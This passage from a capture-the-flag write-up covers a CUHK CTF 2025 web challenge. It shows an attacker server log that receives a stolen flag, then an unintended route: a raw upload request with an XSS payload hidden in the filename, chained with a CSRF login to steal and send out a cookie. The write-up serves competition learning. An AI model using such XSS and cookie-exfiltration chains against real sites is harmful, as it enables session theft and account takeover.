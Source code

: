 - Our attacker server log

```shell
┌[siunam@~/ctf/CUHK-CTF-2025/Web-Exploitation/gadgets]-[2025/10/04|19:34:45(HKT)]
└> python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
127.0.0.1 - - [04/Oct/2025 19:35:17] "GET /?flag=cuhk25ctf{cR3d17_t0_g00613_F0r_7hi5_iD34_7o_c0n5truc7_a_fUnCt10N} HTTP/1.1" 200 -
```

- Flag: **`cuhk25ctf{cR3d17_t0_g00613_F0r_7hi5_iD34_7o_c0n5truc7_a_fUnCt10N}`**

> Note 1: The remote instance's `FLAG_DOMAIN` environment variable's value is misconfigured to `http://chall-b.25.cuhkctf.org:25053`. Make sure your reporting domain is `http://chall-b.25.cuhkctf.org:25053`, NOT `http://gadgets-frontend:3000`.
> Note 2: For some reason, the solve script doesn't work locally but work on the remote.

## Potential Unintended Solution

Since the remote instance's `FLAG_DOMAIN` environment variable is misconfigured, it is possible to get the `flag` cookie via an unintended way:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/CUHK-CTF-2025/images/Pasted%20image%2020251004194106.png)

Because the `flag` cookie is set on `http://chall-b.25.cuhkctf.org:25053`, if we're able to find an XSS vulnerability in same site, we can exfiltrate the `flag` cookie to our attacker server.

For instance, in web challenge "Jain Streak Dreamers", it is possible to gain self-XSS by uploading a file that contains an XSS payload in the filename:

```http
POST /api/uploads HTTP/1.1
Host: chall.25.cuhkctf.org:25027
Content-Type: multipart/form-data; boundary=----geckoformboundary8dd4d25622ce03dd2571fa9a5c4117b4
Content-Length: 468
Cookie: dream.session=0DuyxM5yCcpRWtnYbMKNkCFWg

------geckoformboundary8dd4d25622ce03dd2571fa9a5c4117b4
Content-Disposition: form-data; name="files"; filename="<img src onerror=alert(origin)>.txt"
Content-Type: text/plain

anything
------geckoformboundary8dd4d25622ce03dd2571fa9a5c4117b4
Content-Disposition: form-data; name="dream.csrf"

AEo-W9ZWrnd11d2vIAhhaIOopmCI9zLcNhT6hEnCsOHK_hXKzzUNYgRaFP1BCseXaJuzf5l-ey1e4XtdutDvvWTCgJZhYORR4r97kEq3xMR7
------geckoformboundary8dd4d25622ce03dd2571fa9a5c4117b4--
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/CUHK-CTF-2025/images/Pasted%20image%2020251004194913.png)

We can leverage this self-XSS to get the `flag` cookie by:
1. The headless browser go to our attacker web server
2. In our web server, perform a CSRF attack on challenge "Jain Streak Dreamers":
    1. Login to **our attacker account**
3. Open a new window to trigger our self-XSS payload
    1. Read the `flag` cookie and exfiltrate it to our attacker server
